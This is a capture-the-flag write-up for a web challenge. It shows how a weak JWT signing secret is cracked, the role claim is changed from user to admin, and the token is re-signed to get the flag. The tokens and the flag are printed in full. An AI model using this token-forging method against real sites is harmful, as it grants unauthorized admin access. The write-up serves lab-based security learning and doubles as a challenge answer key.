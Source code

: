 # Super Admin 

## Description

> Comfort food.
> 
> https://bluehens-web-cookies.chals.io/ 



## Write-Up

As we enter the website, we get two buttons: one to connect as `user` and one as `admin`.

From there, when clicking on the `user` button, we get a cookie token in the storage part of the browser.

```
creds: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODQ0MDk5OX0.xcHM5Rk8Cfc-moilBXPdBFOogz-EzN9S6C1OExLNqnQ
```

It seems to be a `jwt` token, after cracking it using for example `john the ripper`, we get :

```
password1`
```

From there, we decode the token:

```
{
  "role": "user",
  "iat": 1698440999
}
```

We forge a new one by changing the role:

```
{
  "role": "admin",
  "iat": 1698440999
}
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2OTg0NDA5OTl9.TwSQSBcxgzNbyHh6bGg1ZGB1JpLE7Ebv3BiB6fNW0Gc
```

After replacing the cookie, we get:

```
Welcome, Admin!

Here is your flag: UDCTF{k33p_17_51mp13_57up1d_15_4_l1e}
```


## Flag

UDCTF{k33p_17_51mp13_57up1d_15_4_l1e}